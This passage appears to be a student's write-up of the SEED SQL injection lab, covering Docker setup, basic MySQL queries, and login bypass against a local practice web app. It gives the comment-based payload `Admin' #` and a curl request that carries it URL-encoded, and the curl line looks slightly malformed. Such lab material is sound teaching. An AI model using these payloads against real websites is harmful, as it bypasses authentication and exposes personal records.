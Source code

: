 # SQL Injection Attack Lab

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers.

Web applications often take user *inputs* to construct SQL queries for retrieving or storing data in a database. If these queries are not properly constructed, SQL injection vulnerabilities can arise.

![SQL Injection Attack](https://github.com/moooninjune/SEED-labs/blob/0b33ad65947b0754b4916b8eff9f10c15190fc80/images/lab8-SQL-injection-attack.png)

## Lab Environment Setup:

1. Map the web application's hostname `www.seed-server.com` to the container’s IP address `10.9.0.5`, by adding this entry to the `/etc/hosts` file.

    ```bash
    sudo gedit /etc/hosts

    #add the following entry
    10.9.0.5    www.seed-server.com
    ```

2. To set up this web application, there are two containers, one for hosting the *web application*, and the other for hosting *the database* for the web application.
    - Use the docker-compose.yml file to set up the lab environment.
    ```bash
    $ dcbuild # Alias for: docker-compose build
    $ dcup  # Alias for: docker-compose up
    ```

    - All the containers will be running in the background.
    ```bash
    # to find out the ID of the container
    # Alias for: docker ps --format "{{.ID}} {{.Names}}"
    $ dockps

    # to start a shell on that container
    # Alias for: docker exec -it <id> /bin/bash
    $ docksh <id>
    ```
    - Example:
    ```bash
    #in one terminal:

    $ dockps
    6f9ac28727e7  mysql-10.9.0.6
    501c8b535e7a  www-10.9.0.5

    $ docksh 6f # SQL database container

    #in another terminal:

    $ docksh 50 # web application container
    ```

---
## Task 1: Get Familiar with SQL Statements:

The data used by our web application is stored in a MySQL database, which is **hosted on our MySQL container**. We have created a database called `sqllab_users`, which contains a table called `credential`. The table stores the personal information (e.g. eid, password, salary, ssn, etc.) of every employee.

Inside the MySQL container:
```
# mysql -u root -pdees

mysql> use sqllab_users;
Database changed

mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

Use a SQL command to print all the profile information of the employee *Alice*:
```sql
select * from credential where Name='Alice';
```
---
## Task 2: SQL Injection Attack on *SELECT* Statement:

### Task 2.1: SQL Injection Attack from webpage.
- Username: `Admin' #`
- Password: Whatever you want, leave it empty even...

    It's like using a SQL query like this:
    ```sql
    select *
    from credential
    where name= 'Admin' #' and password='whatever';
    ```
    ```sql
    --it should be something like this normally:
    where name= 'Admin' and password='admin-passwd';
    ```

    `#` is used to begin a comment in MySQL. Everything following the `#` is ignored by the query. So, we deleted the `and` condition, and the query now only checks for a match on the `name` field, allowing attackers to log in as Admin regardless of the password.

---
### Task 2.2: SQL Injection Attack from command line.
The same as Task 2.1, but without using the webpage.
- Using the command `curl`: which can send HTTP GET requests.
- If you want to include multiple parameters (*username*, *password*) in HTTP requests, you need to put the URL and the parameters between a pair of single quotes.

    ```bash
    # sending an HTTP GET request
    $ curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%20%23Password=whatever'

    # so it's like
    username= Admin' #
    password= whatever
    ```
    Special characters are encoded:
    - `%27` = single quote
    - `%20` = space
    - `%23` = hashtag #

- Then, export the html output into a `file.html` and open it. It contains all information we need but lacks the layout controls by a specified `CSS` file.
---
### Task 2.3: Append a new SQL statement.
